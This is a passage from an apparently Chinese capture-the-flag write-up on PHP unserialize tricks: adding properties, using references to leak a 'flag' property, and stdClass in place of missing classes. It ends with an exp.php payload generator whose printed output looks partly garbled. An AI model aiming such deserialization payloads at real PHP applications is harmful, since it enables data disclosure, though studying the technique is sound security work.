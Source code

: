         public function __construct(){
            $this->username = "user";
            $this->password = "user";
        }
    }
    $a = new Person();
    echo serialize($a),"\n";
    // O:6:"Person":2:{s:8:"username";s:4:"user";s:8:"password";s:4:"user";}
    ```
   假设我们在反序列化时添加一个额外的属性 age：
    ```php
    <?php
    class Person{
        public $username;
        public $password;

        public function __construct(){
            $this->username = "user";
            $this->password = "user";
        }
    }
    $payload = 'O:6:"Person":3:{s:8:"username";s:4:"user";s:8:"password";s:4:"user";s:3:"age";s:2:"10";}';
    var_dump(unserialize($payload));
    // object(Person)#1 (3) {
    //     ["username"]=>
    //     string(4) "user"
    //     ["password"]=>
    //     string(4) "user"
    //     ["age"]=>
    //     string(2) "10"
    //   }
    ```
   既然可以随意添加属性，我们就可以添加一个属性 a，配合引用的方法，将 a 设置为 flag 属性的引用。这样在遍历所有属性时，就可以打印出 flag 的值。
4. 题目并没有给出一个现有的类，在反序列化一个不存在的类时，php 会将结果包裹在一个 __PHP_Incomplete_Class 类中。
   ```php
    object(__PHP_Incomplete_Class)#1 (3) {
        ["__PHP_Incomplete_Class_Name"]=>
        string(9) "whaterver"
        ["a"]=>
        &string(4) "flag"
        ["flag"]=>
        &string(4) "flag"
    }
   ```
   解决的办法是使用一些诸如 Error 的内置类，当然更为方便的是使用 stdClass。

exp.php
```php
<?php
$a = new stdClass();
$a->flag = "flag";
$a->a = &$a->flag;

echo serialize($a);
// O:8:"stdClass":2:{s:1:"a";S:4:"  ";S:4:"\66\6c\61\67";R:2;}
```
